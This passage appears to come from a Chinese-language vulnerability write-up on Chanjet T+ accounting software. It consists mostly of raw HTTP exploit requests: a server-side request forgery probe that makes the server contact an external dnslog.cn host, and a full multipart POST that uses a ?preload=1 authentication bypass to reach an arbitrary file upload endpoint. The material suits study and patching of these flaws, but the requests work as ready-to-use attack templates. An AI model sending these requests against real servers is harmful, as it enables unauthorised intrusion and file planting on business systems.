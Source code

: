```
Referer:http://xxxxx/tplus/ajaxpro/Ufida.T.SM.UIP.UA.AddressSettingController,Ufida.T.SM.UIP.ashx?method=TestConnnect
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36

{
  "address":"su8hjb.dnslog.cn"
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqcHpPfYH832aWPof4MVUNHlIjJWGTyB4Vlzy24EVfyumGYx4fQcJk19JVNIwJfslDlVjfb5e499Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqcHpPfYH832aWPof4MVUNHwIBopLuc4g37MR2VIoQVV17KN2CNGudOQl7ibYReLtbic9yHojUO4icTg/640?wx_fmt=png&from=appmsg "")  
  
**七、文件上传**  
  
/tplus/CommonPage/UserFileUpload.aspx 文件中含有UploadUserFile函数 导致了鉴权任意文件上传（v17<= 版本可 ?preload=1 绕过）  
  
POC:  
```
http://xxxxx/tplus/CommonPage/UserFileUpload.aspx?preload=1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqcHpPfYH832aWPof4MVUNHVuib7BpARkic3rwXoicglj0D8NbEIJJky9A7bp0nrmwuhDFup5k0LBdUQ/640?wx_fmt=png&from=appmsg "")  
```
POST /tplus/CommonPage/UserFileUpload.aspx?preload=1 HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------31120366651622657084172305612
Content-Length: 873
Origin: xxxx
Connection: close
Referer: http://xxxxx/tplus/CommonPage/UserFileUpload.aspx?preload=1
Cookie: ASP.NET_SessionId=305wnhz0nngmnh5jxb2mxt0t; Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1710497388; Hm_lpvt_fd4ca40261bc424e2d120b806d985a14=1710497548
Upgrade-Insecure-Requests: 1

-----------------------------31120366651622657084172305612
Content-Disposition: form-data; name="__EVENTTARGET"

btUpLoad
-----------------------------31120366651622657084172305612
Content-Disposition: form-data; name="__EVENTARGUMENT"


-----------------------------31120366651622657084172305612
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwULLTExMjk2Njk2NjUPFgIeE1ZhbGlkYXRlUmVxdWVzdE1vZGUCARYCAgMPFgIeB2VuY3R5cGUFE211bHRpcGFydC9mb3JtLWRhdGFkZMMPG+xpQF9Tz9ZkXNLkJDcxtSCr0/KejOFiC5BndJai
-----------------------------31120366651622657084172305612
Content-Disposition: form-data; name="__VIEWSTATEGENERATOR"

ACD4EABA
-----------------------------31120366651622657084172305612
Content-Disposition: form-data; name="myFileUpload"; filename="1.txt"
Content-Type: text/plain

333
```